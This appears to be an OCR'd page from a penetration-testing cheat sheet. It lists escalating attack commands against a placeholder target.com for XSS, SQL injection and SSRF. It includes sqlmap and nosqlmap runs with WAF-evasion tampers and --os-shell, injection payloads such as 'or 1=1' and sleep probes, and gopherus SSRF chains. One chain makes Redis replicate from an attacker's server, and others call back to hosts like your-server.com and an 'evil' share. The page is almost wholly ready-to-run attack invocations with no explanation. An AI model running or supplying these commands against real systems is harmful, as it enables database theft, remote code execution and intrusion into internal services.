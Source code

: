     kxsstester -u https://target.com/search?q=1 --dom --post-data 'param=val' --payloads /usr/share/seclists/Fuzzing/XSS/DOMXSS.txt --proxy http://127.0.0.1:8080
    kxsstester -u https://target.com/vuln#test=<img src=x onerror=prompt(1)> --hash --user-agent "Mozilla/5.0"
    brutexss -u https://target.com -p "name query search input" -w /usr/share/seclists/Fuzzing/XSS/XSS-Payloads-L5.txt -t 35 -headers "X-Forwarded-For: 127.0.0.1"
    brutexss -u https://target.com -data "param1=value1&param2=FUZZ" -w /usr/share/seclists/Fuzzing/XSS/XSS-Event-Attributes.txt -m POST -cookies "sessionid=..."

## 3.3 SQL Injection
    sqlmap -u "https://target.com?id=1" --batch
    sqlmap -u "https://target.com?id=1" --batch --level 5 --risk 3 --dbs
    sqlmap -r request.txt --dbs
    nosqli scan -u https://target.com/api?id=1
    nosqlmap -u https://target.com/api?query=admin
    ghauri --url https://target.com/search.php?q=1 --dbs
    jsql -u https://target.com/vuln.jsp?id=1
    sqli-detector -u https://target.com/login
    ------
    sqlmap -u "https://target.com?id=1" --batch --level 5 --risk 3 --dbs --threads 10
    sqlmap -u "https://target.com/news.php?id=1" --dbs --tamper="apostrophemask,apostrophenullencode,charencode"
    nosqlmap -u https://target.com/api?query=admin --mongo-shell --os-shell
    nosqlmap -u https://target.com/users --get --value "'or 1=1--"
    ghauri --url https://target.com/search.php?q=1 --dbs --threads 5
    ghauri --url https://target.com/item?name=test' --identify
    jsql -u https://target.com/vuln.jsp?id=1 --test="AND SLEEP(5)"
    jsql -u https://target.com/data.jsp?search=admin%25' --blind
    sqli-detector -u https://target.com/login --data "username=test&password='or 1=1--'"
    sqli-detector -u https://target.com/profile.php?user=1' --check-errors
    ------
    sqlmap -u "https://target.com?id=1" --batch --level 5 --risk 3 --dbs --threads 15 --tamper="apostrophemask,apostrophenullencode,charencode,randomcase,unionallcols,unmagicquotes"
    sqlmap -u "https://target.com/news.php?id=1" --dbs --tamper="base64encode,htmlencode,urlencode" --time-sec 10
    nosqlmap -u https://target.com/api?query=admin --mongo-shell --os-shell --tamper="modunion"
    nosqlmap -u https://target.com/users --get --value "'});db.injection.find({$where:'sleep(5000)'});//"
    ghauri --url https://target.com/search.php?q=1 --dbs --threads 7 --tamper="space2comment"
    ghauri --url https://target.com/item?name=test' --identify --skip-waf
    jsql -u https://target.com/vuln.jsp?id=1 --test="PROCEDURE ANALYSE(sleep(5))"
    jsql -u https://target.com/data.jsp?search=admin%25' --blind --string "admin record"
    sqli-detector -u https://target.com/login --data "username=test&password='or sleep(5)--'" --timeout 10
    sqli-detector -u https://target.com/profile.php?user=1' --check-errors --verbose

## 3.4 Server-Side Vulnerabilities

### SSRF:
    ssrfmap -r request.txt -p url=https://yourcollab.com
    ssrfmap -r request.txt -p url=https://yourcollab.com -m portscan
    gopherus --exploit mysql
    gopherus --exploit mysql --inject 'curl https://collab.net'
    ground-control -u https://target.com/redirect?url=COLLAB
    qsreplace -a urls.txt -p ssrf_payloads.txt -o ssrf_urls.txt
    ------
    ssrfmap -r request.txt -p url=https://$(whoami).oastify.com -m portscan -ports 80,443,21,22
    ssrfmap -r post_request.txt -p callback=http://your-server.com/receive -X POST
    gopherus --exploit mysql --inject 'SELECT LOAD_FILE("\\\\\\\\evil\\\\\\\\share\\\\\\\\file.txt")' | curl -v --data-urlencode "url=gopher://127.0.0.1:3306/_$(cat -)" https://target.com/proxy
    gopherus --exploit redis --command "SLAVEOF your-server.com 6379" | curl -v --data-urlencode "url=gopher://127.0.0.1:6379/_$(cat -)" https://target.com/api